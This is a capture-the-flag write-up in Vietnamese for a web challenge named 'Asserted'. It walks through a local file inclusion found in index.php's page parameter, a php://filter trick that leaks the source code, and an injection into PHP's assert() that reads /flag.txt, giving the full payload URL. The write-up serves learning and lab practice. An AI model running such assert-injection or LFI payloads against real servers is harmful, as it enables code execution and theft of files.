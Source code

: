 Asserted
===
**Category:** Web

**Author:** dead#4282 & @JohnHammond#6971

**Point:**

### Description
```
Time to hit the gym! Assert all your energy! Err, wait, is the saying "exert" all your energy? I don't know...
The flag is in /flag.txt.
```

### Overview
- Đầu tiên ta vào trang web thì thấy được giao diện khá là đẹp :) có vẻ như về chủ đề là gym. Sau một hồi khám phá click từng mục và kiểm tra trên thanh url thì phát được `/index.php?page=about` nhìn trông có vẻ như là lfi nên vì đó mình đã thử lfi và kết quả thành công

### Solution
- Đã biết được lfi nên bây giờ chúng ta chỉ cần láy source nó về và đọc `php://filter/convert.base64-encode/resource=index`
- Source của index:
```php
<?php

if (isset($_GET['page'])) {
  $page = $_GET['page'];
  $file = $page . ".php";

  // Saving ourselves from any kind of hackings and all
  assert("strpos('$file', '..') === false") or die("HACKING DETECTED! PLEASE STOP THE HACKING PRETTY PLEASE");
  
} else {
  $file = "home.php";
}

include($file);

?>
```
Nhìn vào code chúng ta có thể đoạn được rằng chúng ta phải injection vào `assert`. Chúng ta có thể code vào ở phía sau của `asert` để đọc được file mà mình thích

##### Payload
```
/index.php?page=', '..') === false and $myfile = fopen("/flag.txt", "r") and exit(fread($myfile,filesize("/flag.txt"))) or true or strpos('
```
Sau khi injection đoạn code trên vào thì assert ở phí trên code sẽ trở thành như này
```php
assert("strpos('', '..') === false and $myfile = fopen("/flag.txt", "r") and exit(fread($myfile,filesize("/flag.txt"))) or true or strpos('', '..') === false") or die("HACKING DETECTED! PLEASE STOP THE HACKING PRETTY PLEASE");
```
